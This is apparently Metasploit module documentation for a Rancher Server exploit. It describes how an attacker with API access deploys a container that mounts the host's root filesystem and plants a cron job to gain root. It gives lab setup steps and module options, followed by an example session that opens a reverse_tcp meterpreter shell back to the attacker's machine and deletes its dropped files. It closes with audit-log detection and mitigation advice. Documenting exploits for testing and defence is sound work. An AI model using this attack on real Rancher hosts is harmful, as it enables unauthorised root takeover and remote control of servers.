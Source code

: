## Vulnerable Application
Utilizing Rancher Server, an attacker can create a docker container
with the '/' path mounted with read/write permissions on the host
server that is running the docker container. As the docker container
executes command as uid 0 it is honored by the host operating system
allowing the attacker to edit/create files owned by root. This exploit
abuses this to creates a cron job in the '/etc/cron.d/' path of the
host server.

The Docker image should exist on the target system or be a valid image
from hub.docker.com.

Use `check` with verbose mode to get a list of exploitable Rancher
Hosts managed by the target system.

## Rancher setup
Rancher is deployed as a set of Docker containers. Running Rancher is
as simple as launching two containers. One container as the management
server and another container on a node as an agent.

This module was tested with Debian 9 and CentOS 7 as the host operating
system with Docker 17.06.1-ce and Rancher Server 1.6.2, all with
default installation.

### Install Debian 9
First [install Debian 9][1] with default task selection. This includes
the "*standard system utilities*".

### Install Docker CE
Then install a supported version of [Docker on Debian system][2].

```bash
# TL;DR
apt-get remove docker docker-engine
apt-get install apt-transport-https ca-certificates curl gnupg2 software-properties-common
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
# Verify that the key ID is 9DC8 5822 9FC7 DD38 854A E2D8 8D81 803C 0EBF CD88.
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce
docker run hello-world
```

### Rancher Server (Management)
I recommend doing a ['Rancher Server - Single Container (NON-HA)'
installation][3].

If Docker is installed, the command to start a single instance of
Rancher is simple.

```bash
# TL;DR
sudo docker run -d --restart=unless-stopped -p 8080:8080 rancher/server
```

If all is passing navigate to `http://[ip]:8080/`. You should see the
Rancher Server UI web application.

### Rancher Host (Agent)

Add a [new host][4] to Rancher Server so that the Docker host can be managed.

**Set Host Registration URL**

The first time that you add a host, you may be required to set up the
Host Registration URL.

* Navigate to Admin / Settings (`http://[ip]:8080/admin/settings`)
* Check if `"http://[ip]:8080/"` is set 
* Click on Save.

**Add new host**

* Navigate to Infrastructure / Hosts (`http://[ip]:8080/env/1a5/infra/hosts`)
* Click on Add Host
* Copy the command from Point 5 (and remove sudo prefix)
  `docker run --rm --privileged -v /var/run/docker.sock:/var/run/docker.sock -v /var/lib/rancher:/var/lib/rancher rancher/agent:v1.2.2 http://[ip]:8080/v1/scripts/XXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXX`
* Paste and run the command on the host

The new host should pop up on the Hosts screen within a minute.

# Exploitation
This module is designed to gain root access on a Rancher Host.

## Options
- CONTAINER_ID if you want to have a human readable name for your container, otherwise it will be randomly generated.
- DOCKERIMAGE is the local image or hub.docker.com available image you want to have Rancher to deploy for this exploit.
- TARGETENV this is the target Rancher Environment. The default environment is `1a5`.
- TARGETHOST is the target Rancher Host. The default host is `1h1`.

By default access control is disabled, but if enabled, you need API
Keys with at least "restrictive" permission in the environment.
See Rancher docs for [api-keys][5] and [membership-roles][6].

- HttpUsername is for your Access Key
- HttpPassword is for your Secret Key

Advanced Options
- TARGETURI this is the Rancher API base path. The default environment is `/v1/projects`.
- WAIT_TIMEOUT is how long you will wait for a docker container to deploy before bailing out if it does not start.

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/rancher_server
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a docker container and it successfully runs 
- [ ] After a minute a session should be opened from the agent server

## Example Output
```
msf > use exploit/linux/http/rancher_server
msf exploit(rancher_server) > set RHOST 192.168.91.111
RHOST => 192.168.91.111
msf exploit(rancher_server) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(rancher_server) > set LHOST 192.168.91.1
LHOST => 192.168.91.1
msf exploit(rancher_server) > set VERBOSE true
VERBOSE => true
msf exploit(rancher_server) > check

[+] Rancher Host "rancher" (TARGETHOST 1h1) on Environment "Default" (TARGETENV 1a5) found <-- targeted
[*] 192.168.91.111:8080 The target is vulnerable.
msf exploit(rancher_server) > exploit

[*] Started reverse TCP handler on 192.168.91.1:4444
[*] Setting container json request variables
[*] Creating the docker container command
[+] The docker container is created, waiting for it to deploy
[*] Waiting up to 60 seconds for docker container to start
[+] The docker container has stopped, now trying to remove it
[+] The docker container has been removed.
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (40747 bytes) to 192.168.91.111
[*] Meterpreter session 1 opened (192.168.91.1:4444 -> 192.168.91.111:49948) at 2017-07-27 22:18:00 +0200
[+] Deleted /etc/cron.d/wlHVKGMA
[+] Deleted /tmp/jxKUxUyN

meterpreter > sysinfo
Computer     : rancher
OS           : Debian 9.1 (Linux 4.9.0-3-amd64)
Architecture : x64
Meterpreter  : x64/linux
meterpreter >
```
## Exploit Detection
Rancher Server has an [audit log][7]. While running this module two
events (create and delete) were logged. Even though the container is 
deleted, its still able to be viewed from the link in the audit log.

## Mitigation
* Do not deploy a Rancher Host on the same host where the Rancher
  Server is. Your entire rancher infrastructure is in [danger][8].
* Only allow trusted users to have more permissions than read-only.

Docker protection such as Username Namespaces could not be applied
because Rancher Agents run as a privileged container.


[1]:https://www.debian.org/releases/stretch/amd64/index.html.en
[2]:https://docs.docker.com/engine/installation/linux/docker-ce/debian/
[3]:https://rancher.com/docs/rancher/v1.6/en/installing-rancher/installing-server/#launching-rancher-server---single-container-non-ha
[4]:https://rancher.com/docs/rancher/v1.6/en/hosts/#adding-a-host
[5]:https://rancher.com/docs/rancher/v1.6/en/api/v2-beta/api-keys/
[6]:https://rancher.com/docs/rancher/v1.6/en/environments/#membership-roles
[7]:https://rancher.com/docs/rancher/v1.6/en/rancher-services/audit-log/
[8]:https://rancher.com/docs/rancher/v1.6/en/faqs/troubleshooting/#help-i-turned-on-access-controldocsrancherv16enconfigurationaccess-control-and-can-no-longer-access-rancher-how-do-i-reset-rancher-to-disable-access-control
[9]:https://rancher.com/docs/rancher/v1.6/en/installing-rancher/selinux/
